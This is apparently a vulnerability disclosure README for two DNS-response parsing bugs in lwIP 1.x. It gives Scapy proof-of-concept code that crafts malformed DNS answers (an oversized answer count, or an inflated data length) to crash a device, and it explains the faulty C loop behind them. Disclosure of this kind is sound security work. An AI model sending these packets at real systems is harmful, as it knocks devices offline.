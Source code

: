 About DNS bugs
====

DNS function `dns_recv` of lwIP v 1.x is valnerable.
We found two DNS bugs, and marked them as DNS bug \#1, \#2.


Summary
-----
<img alt="DNS messege fields" src="./images/DNS-message-fields.jpg" width="500px"/>

### DNS bug #1
A segmentation fault occurs when following conditions are met.

* _number of Answer Record_ is too large

### DNS bug #2
A segmentation fault occurs when following conditions are met.

* _number of Answer Record_ is at least 2
* _Data Length_ of _Answer Record_ is too large


PoC
----
### DNS bug #1
This bug can be triggered using following Scapy code.

```python
Ether(dst="11:22:33:44:55:66")/IP(src="8.8.8.8", dst="192.168.0.2")/UDP(sport=53, dport=dport)/DNS(id=0, qdcount=1, ancount=0xffff, qr=1, aa=0, tc=0, rd=1, ra=1, z=0, rcode=0, qd=DNSQR(qname='www.google.com.', qtype=1, qclass=1), an=DNSRR(rrname="www.google.com.", type=1, rdata="127.0.0.1"))
```

### DNS bug #2
This bug can be triggered using following Scapy code.
You must correct TCP checksum.

```python
b = bytes(Ether(dst="11:22:33:44:55:66")/IP(src="8.8.8.8", dst="192.168.0.2")/UDP(sport=53, dport=dport)/DNS(id=0, qdcount=1, ancount=2, qr=1, aa=0, tc=0, rd=1, ra=1, z=0, rcode=0, qd=DNSQR(qname='www.google.com.', qtype=1, qclass=1), an=DNSRR(rrname="www.google.com.", type=1, rdata="127.0.0.1")))
b = b.replace('\x00\x04\x7f\x00\x00\x01', '\xff\xff\x7f\x00\x00\x01')
```

PoC script for this bug is available: `script/attack-dns-bug-2.py`


Detail
----
Following snippet is a part of source code `core/dns.c`:

```c
while(nanswers > 0) {
  /* skip answer resource record's host name */
  pHostname = (char *) dns_parse_name((unsigned char *)pHostname);

  /* Check for IP address type and Internet class. Others are discarded. */
  MEMCPY(&ans, pHostname, sizeof(struct dns_answer));
  if((ntohs(ans.type) == DNS_RRTYPE_A) && (ntohs(ans.class) == DNS_RRCLASS_IN) && (ntohs(ans.len) == sizeof(struct ip_addr)) ) {
    [...]
  } else {
    pHostname = pHostname + sizeof(struct dns_answer) + htons(ans.len);
  }
  --nanswers;
}
```

### DNS bug #1
`nanswers` in the continuation condition of while is the value of the low-order 1 byte of the Answer RRs of the DNS response
be equivalent to. 
This while loop performs parsing of multiple _Answer records_. 
`pHostname` is pointing to the payload of DNS, and it is a pointer that remembers how far parsed it is.
The `dns_parse_name` function reads the address pointed to by `pHostname` and returns a pointer.

There is a possibility of causing a segmentation violation in order to advance.
DNS bug # 1 triggers an unnecessary while loop of large nanswers values, and occurs segmentation fault.

### DNS bug #2
DNS bug # 2 focuses on line 10, `+ htons (ans.len)`.
The added value is equal to _Data length_ of _Answer record_.
DNS bug # 2 adds a large value so that `pHostname` points to an unmapped region,

In the second and subsequent loops, DNS bug \#2 causes a segmentation fault while executing `dns_parse_name` function.